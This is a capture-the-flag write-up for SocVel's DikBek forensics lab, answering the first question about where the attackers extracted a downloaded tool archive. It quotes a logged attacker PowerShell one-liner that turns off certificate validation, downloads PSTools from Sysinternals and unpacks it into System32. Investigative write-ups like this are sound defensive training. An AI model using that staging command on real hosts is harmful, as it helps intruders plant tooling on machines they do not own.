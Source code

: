 # DikBek

## DFIR, 3000 points

### Description

Professor Jan Vogel has spent the last 6 months developing an early detection system for the Novid Virus. But, one week before the public launch of the Metaalbekkanarie, the confidential research which was set to make the South African government Billions of Randelas was published on Github by attackers.

How could this have happened? 

For more information, check the [DikBek scenario backstory](https://socvel.com/dikbek.html#DikBek).

Author: [SocVel](https://twitter.com/socveldotcom)

### Solution

For this lab, I will explain my investigation work regarding this hack. To break down this exercise, I will focus on interesting questions asked in this SocVel's challenge. Thus, some questions might be omitted.

Most of the logs for this challenge uses the `.evtx` extension which are logs managed by Windows Event Viewer, you can get more information on [this Forensics Wiki](https://forensicswiki.xyz/wiki/index.php?title=Windows_XML_Event_Log_%28EVTX%29) or [this LogRhythm documentation](https://docs.logrhythm.com/docs/devices/ms-windows-event-log-sources/ms-windows-event-logging-xml-windows-defender/malware-detection-events-xml-logs
). In order to deal with Windows Event Log files on my Linux operating system, I converted them into XML files with a Python script `evtx_dump.py`, available in my GitHub repository [there](https://github.com/extiop/ctf/blob/master/2021/SocVel/DFIR/evtx_dump.py).

#### Q1) To start their attack on this host, the attackers appear to have downloaded an archive full of tools. Proxy logs for the host also showed activity for the URL “https://docs.microsoft.com/en-us/sysinternals/” in the timeframe of the attack. To which folder was this downloaded tool archive extracted to? Give your answer as: c:\folder\subfolder\

Let's get into the swing of this lab: as the attackers consulted some Sysinternals documentation, it is very likely that they downloaded something from the Sysinternals suite, hence from something like `sysinternals.com`. I used this string as my filter and found that interesting entry:

```bash
ScriptBlockText: [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $True };$web = (New-Object System.Net.WebClient);$result = $web.DownloadFile("http://download.sysinternals.com/files/PSTools.zip", "PSTools.zip");New-Item -ItemType "directory" C:\Windows\System32\PSTools -Force;Add-Type -Assembly 'System.IO.Compression.FileSystem'; [System.IO.Compression.ZipFile]::ExtractToDirectory("PSTools.zip", "C:\Windows\System32\PSTools");
```

The latter reveals the tools `PSTools` and its extracted path.

